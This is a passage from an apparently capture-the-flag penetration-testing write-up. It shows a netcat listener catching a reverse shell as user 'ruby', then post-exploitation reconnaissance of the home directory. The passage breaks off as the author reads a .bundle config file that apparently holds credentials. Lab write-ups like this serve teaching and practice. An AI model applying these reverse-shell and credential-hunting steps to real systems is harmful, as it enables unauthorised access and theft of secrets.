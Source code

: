 Result on the listener :

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:50958.
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

We get a shell on the target with user `ruby`.

## Post-Exploitation

### Host Reconnaissance

Exploring the home suer of this user `ruby`, we find some interesting files :

```shell
cd
ls -la
```

Result:

```text
total 28
drwxr-xr-x 4 ruby ruby 4096 Apr 29 16:17 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 Apr 29 16:21 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

`.bundle` is an interesting directory. It's a ruby tool.

```shell
cd .bundle 
ls -la
```

Result:

```text
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Apr 29 16:17 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
```

```shell
cat config
```
